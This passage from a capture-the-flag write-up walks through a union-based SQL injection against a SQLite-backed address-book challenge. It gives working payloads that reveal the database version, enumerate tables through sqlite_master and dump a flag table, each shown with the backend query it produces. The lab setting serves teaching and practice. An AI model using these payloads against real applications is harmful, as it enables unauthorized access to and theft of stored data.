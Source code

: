![addressbook](http://172.18.162.252:1234/assets/htm-2021/addressbook.png)

Searching for any other random name did not yield any results. I knew this was accessing data inside of some sort of database, so I tried my hand at doing an SQL injection attack.
My train of thought was that because this is a simple docker instance it might just use SQLite. If it does it should respond to ```sqlite_version()``` with the version it has, if it doesn't, then I could try other variants of SQL and their specific commands.

But how would I be able to run that?
Well, I could assume that the SQL command on the backend looks something like this:
```sql
select * from sometablethatIdontknow where name='{USERINPUT}'
```

I can add anything as USERINPUT, so I will close out the quotes, get rid of the answer by `AND`ing it with a false statement, and using a union to select the version I am looking for: 
```
blahblah' AND 1=2 UNION SELECT sqlite_version(), 1, 1 --
```
This interanlly it would look like:
```sql
select * from sometablethatIdontknow where name='blahblah' AND 1=2 UNION SELECT sqlite_version(), 1, 1 --'
```

The other 2 `1`'s there I need just to be able to fully populate the table on the website which needs 3 elements in total.

I got lucky! The database was in fact an SQLite database and it returned its version:
![addressbookversion](http://172.18.162.252:1234/assets/htm-2021/addressbookversion.png)

Now that we know what database there is, I can always query all the table names. To do that in SQL, my input became:
```
blahblah' AND 1=2 UNION SELECT name, 1, 1 FROM sqlite_master WHERE type = "table" --
```
which in turn on the backend side looked something like:
```sql
select * from sometablethatIdontknow where name='blahblah' AND 1=2 UNION SELECT name, 1, 1 FROM sqlite_master WHERE type = "table" --'
```

This returned the name of the tables available in that database. There is a `flag` table! That's what we want. To list everything inside of it, we do the last injection:
```
blahblah' AND 1=2 UNION SELECT *, 1, 1 FROM flag--
```
which then in turn on the backend side would look like:
```sql
select * from addressbook where name='blahblah' AND 1=2 UNION SELECT *, 1, 1 FROM flag--'
```

That was it! The flag, `HTM{ADDRESS_BOOK_INJECTION}` was mine!
![addressbookflag](http://172.18.162.252:1234/assets/htm-2021/addressbookflag.png)


# In conclusion
